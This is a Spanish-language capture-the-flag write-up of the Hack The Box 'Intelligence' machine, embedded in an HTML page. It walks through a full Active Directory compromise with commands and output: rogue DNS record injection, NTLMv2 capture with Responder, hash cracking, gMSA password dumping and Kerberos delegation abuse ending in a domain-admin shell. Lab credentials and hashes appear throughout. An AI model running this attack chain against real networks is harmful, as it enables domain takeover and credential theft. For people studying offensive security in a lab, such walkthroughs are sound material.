Algo interesante a tener en cuenta es que el cmdlet Invoke-WebRequest en la línea 5 se ejecuta con el -UseDefaultCredentialsbandera. Si conseguimos estas credenciales, es posible que podamos 
usarlas en otro lugar. Además cabe mencionar que la línea 6 causaría un error al ejecutarse ya que al autor se le olvidó escribir $request antes de .personaje. Sin embargo, esto no impide que 
el script envíe solicitudes web autenticadas. 

Como sabemos que el bucle for itera sobre todos los registros DNS en AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htbcomenzando con la cadena "web", podríamos 
intentar inyectar nuestro propio registro DNS que comienza con esta cadena y apunta a nuestra máquina atacante. De esta forma podríamos filtrar las credenciales de la solicitud. Una buena 
herramienta para esto es dnstool, desarrollado por Dirk-jan Mollema . 

Ejecutamos esta herramienta como se demuestra a continuación. Usamos las banderas -uy -p para proporcionar a la herramienta las credenciales del usuario Tiffany.Molina que comprometimos 
anteriormente. Usamos la bandera --action para especificar que queremos agregar un nuevo registro DNS y la bandera --record  para especificar que el nombre del registro debe ser "web-evil" 
ya que este nombre comienza con la cadena "web". Luego, especificamos que este nombre de registro debe resolverse en nuestra dirección IP utilizando la bandera --data y que es una Agrabar 
usando la bandera -type.

<pre>
<code>
┌──(kali㉿kali)-[/tmp/x]
└─$ wget https://raw.githubusercontent.com/dirkjanm/krbrelayx/master/dnstool.py
--2022-04-10 05:42:14--  https://raw.githubusercontent.com/dirkjanm/krbrelayx/master/dnstool.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.108.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 20261 (20K) [text/plain]
Saving to: ‘dnstool.py’

dnstool.py                                                 100%[========================================================================================================================================>]  19.79K  --.-KB/s    in 0.003s  

2022-04-10 05:42:15 (6.25 MB/s) - ‘dnstool.py’ saved [20261/20261]

                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[/tmp/x]
└─$ python3 dnstool.py -u intelligence\\Tiffany.Molina -p NewIntelligenceCorpUser9876 --action add --record web-evil --data 10.10.16.4 --type A 10.10.10.248    
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[/tmp/x]
└─$ 
</code>
</pre>

Existe una variedad de tipos de registros DNS (https://en.wikipedia.org/wiki/List_of_DNS_record_types). El tipo de registro es uno de los más comunes y asigna un nombre de dominio a una 
dirección IPv4. El último argumento es simplemente el servidor al que nos dirigimos. Desde el resultado del comando, vemos que la inyección del nuevo registro fue exitosa. Esto significa
que el usuario Tiffany.Molina tiene derechos de modificación sobre este objeto de Active Directory y que deberíamos poder engañar al downDetector.ps1 script para enviarnos solicitudes web 
autenticadas. 

ahora para hacernos con una solicitud autenticada usaremos, usaremos responder (https://github.com/SpiderLabs/Responder) como se muestra a continuacion.
bandera -I para interface de red en escucha.

<pre>
<code>
    ┌──(kali㉿kali)-[/tmp/x]
└─$ sudo responder -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.1.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.16.4]
    Responder IPv6             [dead:beef:4::1002]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-7BSHVOOOKON]
    Responder Domain Name      [WYSN.LOCAL]
    Responder DCE-RPC Port     [49652]

[+] Listening for events...                                            

[HTTP] NTLMv2 Client   : ::ffff:10.10.10.248
[HTTP] NTLMv2 Username : intelligence\Ted.Graves
[HTTP] NTLMv2 Hash     : Ted.Graves::intelligence:1c47423e00010562:C83C77FCFC30BAF8877ED75A4D91B2AB:010100000000000027681B87FA4CD801AC8DD0EFE91FC03300000000020008005700590053004E0001001E00570049004E002D00370042005300480056004F004F004F004B004F004E00040014005700590053004E002E004C004F00430041004C0003003400570049004E002D00370042005300480056004F004F004F004B004F004E002E005700590053004E002E004C004F00430041004C00050014005700590053004E002E004C004F00430041004C000800300030000000000000000000000000200000D2ABF102A325442058319BD8B1CC36A197486CE75252F9AD0CB436C324745E6A0A0010000000000000000000000000000000000009003C0048005400540050002F007700650062002D006500760069006C002E0069006E00740065006C006C006900670065006E00630065002E006800740062000000000000000000
</code>
</pre>

recibimos la solicitud web con las credenciales para ted.Greaves, ahora a decifrar con hashcat. Especificamos el tipo de hash 5600 utilizando -m, este numero corresponde al tipo de hash NTLMv2
que se obtuvo en https://hashcat.net/wiki/doku.php?id=example_hashes como diccionario rockyou.

<pre>
<code>
┌──(kali㉿kali)-[/tmp/x]
└─$ cat hash
Ted.Graves::intelligence:1c47423e00010562:C83C77FCFC30BAF8877ED75A4D91B2AB:010100000000000027681B87FA4CD801AC8DD0EFE91FC03300000000020008005700590053004E0001001E00570049004E002D00370042005300480056004F004F004F004B004F004E00040014005700590053004E002E004C004F00430041004C0003003400570049004E002D00370042005300480056004F004F004F004B004F004E002E005700590053004E002E004C004F00430041004C00050014005700590053004E002E004C004F00430041004C000800300030000000000000000000000000200000D2ABF102A325442058319BD8B1CC36A197486CE75252F9AD0CB436C324745E6A0A0010000000000000000000000000000000000009003C0048005400540050002F007700650062002D006500760069006C002E0069006E00740065006C006C006900670065006E00630065002E006800740062000000000000000000

┌──(kali㉿kali)-[/tmp/x]
└─$ hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.5) starting
[...]
TED.GRAVES::intelligence:1c47423e00010562:c83c[...]0000:Mr.Teddy
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: TED.GRAVES::intelligence:1c47423e00010562:c83c77fcf...000000
Time.Started.....: Sun Apr 10 05:50:32 2022 (10 secs)
Time.Estimated...: Sun Apr 10 05:50:42 2022 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1102.9 kH/s (1.25ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 10815488/14344385 (75.40%)
Rejected.........: 0/10815488 (0.00%)
Restore.Point....: 10813440/14344385 (75.38%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: Ms.Jordan -> Moritz17
Hardware.Mon.#1..: Util: 74%

Started: Sun Apr 10 05:49:43 2022
Stopped: Sun Apr 10 05:50:44 2022
</code>
</pre>

entonces obtenemos la password  Mr.Teddy. ahora analizaremos los permisos de active directory de este y el anterior usuario usando bloodhound. antes debemos extraer la info del server LDAP 
podemos hacerlo con https://github.com/fox-it/BloodHound.py. Podemos ver que encontró 2 computadoras, 43 usuarios y 55 grupos en el dominio. También nos proporciona los nombres de las dos 
computadoras que identificó. Toda la información extraída se almacena en un conjunto de archivos JSON que se pueden importar a Bloodhound. 

<pre>
<code>
┌──(kali㉿kali)-[/tmp/x]
└─$ bloodhound-python -c ALL -u TED.GRAVES -p Mr.Teddy -d intelligence.htb -dc intelligence.htb -ns 10.10.10.248
INFO: Found AD domain: intelligence.htb
INFO: Connecting to LDAP server: intelligence.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: intelligence.htb
INFO: Found 43 users
INFO: Found 55 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: svc_int.intelligence.htb
INFO: Querying computer: dc.intelligence.htb
WARNING: Could not resolve: svc_int.intelligence.htb: The resolution lifetime expired after 3.2134337425231934 seconds: Server 10.10.10.248 UDP port 53 answered The DNS operation timed out.; Server 10.10.10.248 UDP port 53 answered The DNS operation timed out.
INFO: Done in 00M 13S
                                                                                                                    
┌──(kali㉿kali)-[/tmp/x]
└─$ ls
[...]
20220411130157_computers.json  20220411130157_domains.json  20220411130157_groups.json  20220411130157_users.json
[...]                                                                                                               
┌──(kali㉿kali)-[/tmp/x]
└─$ 
</code>
</pre>

importamos los archivos a bloodhopund etc.

usamos la barra de búsqueda en la esquina superior izquierda para buscar a Ted.Gravesque comprometimos. Una vez el TED.GRAVES@INTELLIGENCE.HTB
hacemos clic derecho en el icono del usuario y seleccionamos Mark User as Ownedpara informarle a Bloodhound que ya hemos comprometido a este usuario. Hacemos lo mismo para Tiffany.Molina. 



Una vez que hayamos marcado a nuestros dos usuarios comprometidos como propietarios, navegamos hasta el Analysis de pestaña y presione Shortest Path from Owned Principals. Luego seleccionamos 
el dominio. INTELLIGENCE.HTB y TED.GRAVES@INTELLIGENCE.HTB en las dos ventanas emergentes resultantes. 





Bloodhound nos muestra un camino desde el Ted.Gravesusuario al controlador de dominio. Nos muestra que Ted.Graves es miembro del grupo ITSUPPORT que tiene el permiso ReadGMSAPassword en la cuenta
SVC_INT. esto significa que podemos ver la cuenta de SVC_INT y comprometerla. podemos leer la contraseña SVC_INT de la cuenta

El gráfico también muestra que la cuenta tiene el permiso AllowedToDelegate en el controlador de dominio! Esto significa que SVC_INT tiene permiso para realizar la delegación restringida 
de Kerberos en el controlador de dominio de destino. La cuenta puede hacerse pasar por cualquier usuario al acceder a cualquier servicio que se ejecute en el controlador de dominio.
podríamos abusar de este permiso para comprometer al administrador

Para leer la contraseña de la cuenta SVC_INT, podemos usar el script Python https://github.com/micahvandeusen/gMSADumper, como se realiza a continuación. 
usamos las banderas -uy -p para autenticarnos como ted.graves tambien -l para especificar servidor LDAP, -d para especificar el dominio. esto deberia revelar el hash de pasword de SVC_INT.

<pre>
<code>
┌──(kali㉿kali)-[/tmp/x]
└─$ wget https://raw.githubusercontent.com/micahvandeusen/gMSADumper/main/gMSADumper.py
--2022-04-11 14:16:41--  https://raw.githubusercontent.com/micahvandeusen/gMSADumper/main/gMSADumper.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.109.133, 185.199.110.133, 185.199.111.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4609 (4.5K) [text/plain]
Saving to: ‘gMSADumper.py’

gMSADumper.py                100%[==============================================>]   4.50K  --.-KB/s    in 0.001s  

2022-04-11 14:16:41 (4.90 MB/s) - ‘gMSADumper.py’ saved [4609/4609]

                                                                                                                    
┌──(kali㉿kali)-[/tmp/x]
└─$ python3 gMSADumper.py -u Ted.Graves -p Mr.Teddy -l intelligence.htb -d intelligence.htb
Users or groups who can read password for svc_int$:
 > DC$
 > itsupport
svc_int$:::a5fd76c71109b0b483abe309fbc92ccb
</code>
</pre>

Antes necesitamos saber el nombre principal del servicio (SPN) del controlador de dominio. Esta información la podemos encontrar en Bloodhound seleccionando el nodo SVC_INT, haciendo clic en 
la pestaña Node Info y comprobando el campo Allowed To Delegate. Podemos descubrir que el SPN del controlador de dominio es WWW/dc.intelligence.htb. 



Ahora que tenemos el SPN del controlador de dominio, deberíamos tener todo lo que necesitamos para obtener un Ticket de concesión de tickets (TGT) para el administratorusuario. 
Podríamos intentar generar este TGT con impacket como se demuestra a continuación. Especificamos el host de destino con el -spnbandera, el hash de contraseña para la autenticación con el -
hashes bandera, la IP del controlador de dominio con el -dc-ip bandera y la cuenta de destino para comprometerse con el -impersonate bandera. Después de las banderas, especificamos 
el usuario como nos gustaría autenticarnos, usando el hash que proporcionamos en el -hashes bandera. Tenga en cuenta que el formato del hash proporcionado al -hashes bandera, debería ser
LMHASH:NTHASH. Sin embargo, desde el hash que filtramos para el SVC_INT cuenta no tenía una parte LM, podemos dejar la LMHASH parte del banco. 

<pre>
<code>
┌──(kali㉿kali)-[/tmp/x]
└─$ impacket-getST -spn www/dc.intelligence.htb -hashes :a5fd76c71109b0b483abe309fbc92ccb -dc-ip 10.10.10.248 -impersonate administrator intelligence.htb/svc_int
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for user
Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
</code>
</pre>

Al ejecutar el comando, recibimos el mensaje de error. Clock skew too great. Esto se debe a que Kerberos depende del tiempo y la diferencia horaria entre nuestro host y el host de destino 
es de 7 horas, como vimos cuando escaneamos el host con nmap. Podemos solucionar este problema sincronizando nuestra hora con la hora del host de destino. Para ello primero debemos desactivar 
la sincronización horaria automática ejecutando timedatectl set-ntp 0. Luego, podemos sincronizar nuestra hora con la hora del host de destino ejecutando sudo ntpdate -s intelligence.htb. 
Una vez que hayamos sincronizado nuestro tiempo, podremos volver a ejecutar el comando para generar un TGT. 

<pre>
<code>
    ──(kali㉿kali)-[/tmp/x]
└─$ sudo timedatectl set-ntp 0

┌──(kali㉿kali)-[/tmp/x]
└─$ date && sudo ntpdate -s intelligence.htb && date
Mon Apr 11 02:36:45 PM EDT 2022
Mon Apr 11 09:36:51 PM EDT 2022
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[/tmp/x]
└─$ impacket-getST -spn www/dc.intelligence.htb -hashes :a5fd76c71109b0b483abe309fbc92ccb -dc-ip 10.10.10.248 -impersonate administrator intelligence.htb/svc_int                        
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for user
[*] Impersonating administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache

┌──(kali㉿kali)-[/tmp/x]
└─$ ls
[...]
administrator.ccache
[...]
</code>
</pre>

Esta vez no recibimos ningún error y se genera un TGT. El script escribe automáticamente este TGT en un archivo llamado "administrator.ccache". El siguiente paso es utilizar este 
TGT para iniciar sesión en el controlador de dominio como administrator usuario que utiliza wmiexec. 

<pre>
<code>
    ┌──(kali㉿kali)-[/tmp/x]
└─$ export KRB5CCNAME=administrator.ccache
                        
┌──(kali㉿kali)-[/tmp/x]
└─$ impacket-wmiexec -k -no-pass administrator@dc.intelligence.htb
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
intelligence\administrator

C:\>
</code>
</pre>

Para asegurarnos de que utilizamos el TGT generado para la autenticación Kerberos, creamos una variable de entorno llamada "KRB5CCNAME" que apunta al administrator.ccachearchivo.
Entonces, corremos wmiexec con el -ky -no-pass flags, para indicarle que se autentique utilizando Kerberos. También le proporcionamos el usuario objetivo y el host como último argumento. 
Al ejecutarse el wmiexec comando, obtenemos acceso administrativo al controlador de dominio, lo que significa que hemos comprometido con éxito todo el dominio podemos proceder a 
buscar la flag de root.

Algunos de los writeups en esta página, pueden tener contenido de otras páginas o tener muy pocas imágenes, esto 
debido a que en algunas de las máquinas que realice, no tome los apuntes o no tome capturas de pantalla, así que he decidido buscar varios writeups
y agregar lo que esté mejor explicado en cada uno para plasmarlo aquí, también si encuentra faltas de ortografía 
o cualquier error, Puedes contactarme a mi correo.

lerioxirit@proton.me


        `;
        
        // Convertir Markdown a HTML
        const converter = new showdown.Converter();
        const html = converter.makeHtml(markdownContent);

        // Insertar el HTML generado en el elemento con id "post"
        document.getElementById('post').innerHTML = html;

        // Resaltar la sintaxis del código
        hljs.initHighlightingOnLoad();
    </script>
</body>
</html>